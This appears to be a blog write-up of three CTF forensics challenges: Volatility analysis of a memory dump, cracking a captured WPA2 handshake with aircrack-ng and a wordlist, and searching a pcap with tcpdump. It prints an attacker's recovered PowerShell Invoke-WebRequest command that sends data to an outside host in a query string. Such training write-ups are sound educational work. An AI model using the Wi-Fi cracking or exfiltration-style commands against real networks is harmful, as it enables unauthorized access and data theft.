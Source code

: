 ```yaml
---
layout: post
title: "CTF7E4 - Forensics Challenges"
categories: CTF7E4
---
```

## 1. voila
&nbsp;
**Challenge Description:**{: style="color: red"}
We got this memory dump from another company and they need some little help from us to identify what commands has attacker executed on their system.

&nbsp;

> **→ tar -xzvf voila.tar.gz**{: style="color: red"}                       
voila.elf

&nbsp;

There are many awesome tools for memory forensics, but one that is mainly used from infosec people is [Volatility](https://github.com/volatilityfoundation/volatility) beacuse it's open source and it has different plugins. Before going deeper into analyzing the extracted elf file, we should determine the profile with the **imageinfo** paramter.
&nbsp;

> **→ volatility -f voila.elf imageinfo**{: style="color: red"}        

```
Volatility Foundation Volatility Framework 2.6.1
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win7SP1x86_23418, Win7SP0x86, Win7SP1x86_24000, Win7SP1x86
                     AS Layer1 : IA32PagedMemory (Kernel AS)
                     AS Layer2 : VirtualBoxCoreDumpElf64 (Unnamed AS)
                     AS Layer3 : FileAddressSpace (/tmp/voiila/voila.elf)
                      PAE type : No PAE
                           DTB : 0x185000L
                          KDBG : 0x82956c28L
          Number of Processors : 1
     Image Type (Service Pack) : 1
                KPCR for CPU 0 : 0x82957c00L
             KUSER_SHARED_DATA : 0xffdf0000L
           Image date and time : 2020-01-30 14:14:07 UTC+0000
     Image local date and time : 2020-01-30 15:14:07 +0100
```
&nbsp;
Now that we know it's a Windows7SP1 image and that we should look for malicious cmd/powershell commands, we can use the **cmdscan** plugin.

> **→ volatility -f voila.elf --profile=Win7SP1x86 cmdscan**{: style="color: red"}

```
Volatility Foundation Volatility Framework 2.6.1
**************************************************
CommandProcess: conhost.exe Pid: 876
CommandHistory: 0x3c64c0 Application: powershell.exe Flags: Allocated, Reset
CommandCount: 1 LastAdded: 0 LastDisplayed: 0
FirstCommand: 0 CommandCountMax: 50
ProcessHandle: 0x5c
Cmd #0 @ 0x3ca738: Invoke-WebRequest -Uri "https://ctf.xor.al/?flag=XOR{m3m_Forens1cs}"
Cmd #4 @ 0x300034: ?
Cmd #17 @ 0x300031: ?
```

&nbsp;
&nbsp;
## 2. WPA2
&nbsp;
**Challenge Description:**{: style="color: red"}
A greyhat hacker sent us the cap files of attacker's Wi-Fi but we can't crack them. If you manage to crack the password  please submit it base64 encoded. 
- e.x flag: **XOR{base64-value-of-password}**

&nbsp;
> **→ unzip capfiles.zip**{: style="color: red"}

```
Archive:  capfiles.zip
   creating: capfiles/
[capfiles.zip] capfiles/spk-01.cap password: xor2020
  inflating: capfiles/spk-01.cap     
  inflating: capfiles/spk-01.kismet.csv  
  inflating: capfiles/spk-01.csv     
  inflating: capfiles/spk-01.kismet.netxml  
  inflating: capfiles/spk-01.log.csv  
```
&nbsp;
> **→ aircrack-ng spk-01.cap -w ~/tools/SecLists/Passwords/rockyou.txt**{: style="color: red"}

&nbsp;
![filtered1]({{ site.baseurl }}/assets/images/ctf7e4/wpa.png){:.images}
&nbsp;
KEY FOUND! [ newpass1 ]
&nbsp;
> **→ echo -n 'newpass1' | base64**{: style="color: red"}
bmV3cGFzczE=


Flag: XOR{bmV3cGFzczE=}

&nbsp;
&nbsp;
## 3. sh4rk
&nbsp;
**Challenge Description:**{: style="color: red"}
We detected suspicious traffic in our infrastructure. Could you identify what the attacker has been searching for?

&nbsp;
> **→ unzip sh4rk.zip**{: style="color: red"}

```
Archive:  sh4rk.zip
[sh4rk.zip] traffic.pcap password: xor2020
  inflating: traffic.pcap 
```
&nbsp;

> **→ tcpdump -qns 0 -A -r traffic.pcap \| grep flag**{: style="color: red"}

```
reading from file traffic.pcap, link-type EN10MB (Ethernet)
Q.KUQ.KU<a href="https://controlc.com/53918d7c">flag</a>
```
&nbsp;

The note pasted on controlc.com/53918d7c was password protected. We can look again for a password string in the pcap file.

> **→ tcpdump -qns 0 -A -r traffic.pcap \| grep pass**{: style="color: red"}

```
reading from file traffic.pcap, link-type EN10MB (Ethernet)
<title>Directory listing for /XOR/wireshark/?pass=xor2020</title>
```

&nbsp;
![filtered1]({{ site.baseurl }}/assets/images/ctf7e4/wireshark.png){:.images}
&nbsp;

&nbsp;
I hope you had fun solving these challenges and learning something new.